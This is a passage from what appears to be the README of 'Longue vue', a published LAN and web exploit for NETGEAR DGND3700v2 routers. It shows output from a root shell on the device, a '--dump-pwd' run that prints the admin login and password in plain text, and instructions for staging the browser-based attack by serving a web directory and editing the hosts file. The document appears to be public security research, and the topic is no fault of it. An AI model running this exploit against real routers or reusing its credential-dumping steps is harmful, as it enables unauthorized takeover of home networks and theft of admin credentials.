 ```
  426 root         0 SWN  [jffs2_gcd_mtd9]
  427 root         0 SWN  [jffs2_gcd_mtd2]
  428 root         0 SWN  [jffs2_gcd_mtd8]
[...]
# *** Connection closed by remote host ***
Cleaning up..
Joining..
----------------------------Done----------------------------
```

And here is another example to dump the login credentials:

```
>python longue-vue.py --dump-pwd

           .    '                   .  "   '
                  .  .  .                 '      '
          "`       .   .
                                           '     '
        .    '      _______________
                ==c(___(o(______(_()
                        \=\
                         )=\
                        //|\\
                       //|| \\
                      // ||  \\
                     //  ||   \\
                    //         \\
    «Longue vue» LAN exploit targeting NETGEAR DGND3700v2
              by Axel '0vercl0k' Souchet

Dumping administration password...
Login: 'admin', Password: "TK'm$30ImYDh)Q.e}nZf"
----------------------------Done----------------------------
```

### From the internet

You can check if your router is affected by visiting [0vercl0k.github.io/longue-vue](https://0vercl0k.github.io/longue-vue).

The easiest way to set up the attack in a lab is to start `python -m http.server` from the `web/` directory. Then, edit the `hosts` file of your OS (`C:\Windows\System32\drivers\etc\hosts` on Windows, `/etc/hosts` on Linux) and add an entry that resolves to the IP of the listenning Python HTTP server:

```
[...]
<your local ip> longue-vue.net
```

In my case, I ran `python -m http.server` from my personal machine which has the following IP: 192.168.0.2
